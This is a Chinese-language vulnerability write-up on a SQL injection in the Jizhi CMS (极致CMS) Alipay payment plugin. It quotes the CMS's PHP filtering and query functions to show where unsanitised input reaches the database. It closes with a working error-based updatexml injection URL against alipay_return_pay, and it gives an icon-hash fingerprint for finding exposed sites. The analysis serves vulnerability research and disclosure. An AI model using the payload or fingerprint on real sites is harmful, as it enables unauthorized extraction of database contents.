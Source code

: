 # 极致CMS alipay_return_pay SQL注入漏洞

## 漏洞描述

极致CMS支付插件中存在SQL注入漏洞，通过漏洞可以获取数据库信息 

## 漏洞影响

<a-checkbox checked>极致CMS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1657387632"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1633500278668-c9cbbe05-5213-4454-a608-5f5cbe1c9e1b.png)

查看一下进行过滤的函数



```php
/**
	参数过滤，格式化
**/
function format_param($value=null,$int=0){
	if($value==null){ return '';}
	switch ($int){
		case 0://整数
			return (int)$value;
		case 1://字符串
			$value=htmlspecialchars(trim($value), ENT_QUOTES);
			if(version_compare(PHP_VERSION,'7.4','>=')){
				$value = addslashes($value);
			}else{
				if(!get_magic_quotes_gpc())$value = addslashes($value);
			}
			
			return $value;
		case 2://数组
			if($value=='')return '';
			array_walk_recursive($value, "array_format");
			return $value;
		case 3://浮点
			return (float)$value;
		case 4:
			if(version_compare(PHP_VERSION,'7.4','>=')){
				$value = addslashes($value);
			}else{
				if(!get_magic_quotes_gpc())$value = addslashes($value);
			}
			return trim($value);
	}
}

//过滤XSS攻击
function SafeFilter(&$arr) 
{
   $ra=Array('/([\x00-\x08,\x0b-\x0c,\x0e-\x19])/','/script/','/javascript/','/vbscript/','/expression/','/applet/'
   ,'/meta/','/xml/','/blink/','/link/','/style/','/embed/','/object/','/frame/','/layer/','/title/','/bgsound/'
   ,'/base/','/onload/','/onunload/','/onchange/','/onsubmit/','/onreset/','/onselect/','/onblur/','/onfocus/',
   '/onabort/','/onkeydown/','/onkeypress/','/onkeyup/','/onclick/','/ondblclick/','/onmousedown/','/onmousemove/'
   ,'/onmouseout/','/onmouseover/','/onmouseup/','/onunload/');
     
   if (is_array($arr))
   {
     foreach ($arr as $key => $value) 
     {
        if (!is_array($value))
        {
            if(version_compare(PHP_VERSION,'7.4','>=')){
				$value  = addslashes($value); 
			}else{
				if (!get_magic_quotes_gpc()){
					$value  = addslashes($value); 
				}
			}
          $value = preg_replace($ra,'',$value);     //删除非打印字符，粗暴式过滤xss可疑字符串
          $arr[$key]     = htmlentities(strip_tags($value)); //去除 HTML 和 PHP 标记并转换为 HTML 实体
        }
        else
        {
          SafeFilter($arr[$key]);
        }
     }
   }
}
```



看一下执行的SQL语句的函数



```php
 // 查询一条
    public function find($where=null,$order=null,$fields=null,$limit=1)
    {
	   if( $record = $this->findAll($where, $order, $fields, 1) ){
			return array_pop($record);
		}else{
			return FALSE;
		}
    }
```



跟进 findAll 函数



```php
// 查询所有
    public function findAll($conditions=null,$order=null,$fields=null,$limit=null)
    {
		$where = '';
		if(is_array($conditions)){
			$join = array();
			foreach( $conditions as $key => $value ){
				$value =  '\''.$value.'\'';
				$join[] = "{$key} = {$value}";
			}
			$where = "WHERE ".join(" AND ",$join);
		}else{
			if(null != $conditions)$where = "WHERE ".$conditions;
		}
      if(is_array($order)){
       		$where .= ' ORDER BY ';
            $where .= implode(',', $order);
      }else{
         if($order!=null)$where .= " ORDER BY  ".$order;
      }
		
		if(!empty($limit))$where .= " LIMIT {$limit}";
		$fields = empty($fields) ? "*" : $fields;
 
		$sql = "SELECT {$fields} FROM {$this->table} {$where}";
		
        return $this->getData($sql);
 
    }
```



在跟进一下getData函数



```php
//获取数据
	public function getData($sql)
	{
		if(!$result = $this->query($sql))return array();
		if(!$this->Statement->rowCount())return array();
		$rows = array();
		while($rows[] = $this->Statement->fetch(PDO::FETCH_ASSOC)){}
		$this->Statement=null;
		array_pop($rows);
		return $rows;
	}
```



跟进query执行函数



```php
//执行SQL语句并检查是否错误
	public function query($sql){
		$this->filter[] = $sql;
        $this->Statement = $this->pdo->query($sql);
        if ($this->Statement) {
			return $this;
        }else{
			$msg = $this->pdo->errorInfo();
			if($msg[2]) exit('数据库错误：' . $msg[2] . end($this->filter));
		}
	}
```



- ✅看到`$msg = $this->pdo->errorInfo();`语句，也就是说会把数据库报错信息打印在页面上并显示出来并退出
- ✅一套分析下来没有发现对sql语句的过滤，如果得到的数据没有经过`format_param`过滤，会产生注入



例如:

```php
function exploit(){
    M('member')->find(['username'=>$_GET['name']]);
}
```

如果直接这样GET POST REQUEST 带入数据库 会产生报错注入

例如  ./exploit/name=123'  (加一个引号会报错，如果引号没过滤)

现在只需要寻找类型是这样没过滤直接带入数据库的语句就行了

简单寻找下其实这样的地方挺多的，拿一个位置举例子

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/jizhi-5.jpg)



这里是一个支付插件的位置，蓝色方块1增加代码模拟开通支付宝功能通过验证



可以看到这个函数只使用[htmlspecialchars]来过滤了xss，sql语句没有过滤，用刚刚的方法来注入



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/jizhi-6.jpg)



可以看到的确出现了sql语句和数据库错误,直接报错注入获取敏感信息

`mypay/alipay_return_pay?out_trade_no=1%27 and updatexml(1,concat(0x7e,(select version()),0x7e),1)--+"`

![image-20220313235238670](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220313235238670.png)